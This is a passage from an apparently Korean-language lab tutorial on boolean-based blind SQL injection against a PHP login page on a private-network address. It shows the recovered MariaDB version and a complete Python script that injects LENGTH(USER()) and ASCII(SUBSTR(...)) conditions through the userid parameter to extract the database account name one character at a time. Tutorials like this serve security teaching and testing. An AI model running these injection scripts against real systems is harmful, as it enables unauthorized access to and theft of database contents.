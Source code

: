 ```py
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': RESULT += s
print(f'VERSION : {RESULT}')
```

결과는 다음과 같다.

	VERSION : 10.3.34-MariaDB-0ubuntu0.20.04.1

## **DBMS 계정 확인**

참과 거짓의 결과 정보를 이용하여 DBMS의 계정을 획득해보자.

다음과 같이 DBMS 계정의 문자열 길이를 확인할 것이고, URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

```py
QUERY       = requests.utils.quote(f'test\' AND LENGTH(USER())={i}#')
```

쿼리의 결과가 참일 경우 DBMS 계정의 문자열 길이를 알 수 있다.

```py
REQUEST     = requests.get(url=URL)
if REQUEST.text == 'Welcome test':
	RESULT_LENGTH = i
	break
```

DBMS의 계정을 확인하기 위해 SUBSTR로 한글자씩 맞춰나갈 것이며, 대소문자를 구분하기 위해 ASCII함수를 사용하자.

```py
QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(USER(),{i+1},1))={ord(s)}#')
```

마찬가지로 쿼리의 결과가 참일 경우 DBMS 계정의 문자열 일부를 알 수 있다.

다음의 Full Code로 DBMS의 계정을 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT          = ''
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND LENGTH(USER())={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'USER LENGTH : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    for s in string.printable.strip():
        QUERY       = requests.utils.quote(f'test\' AND ASCII(SUBSTR(USER(),{i+1},1))={ord(s)}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': RESULT += s
print(f'USER : {RESULT}')
```

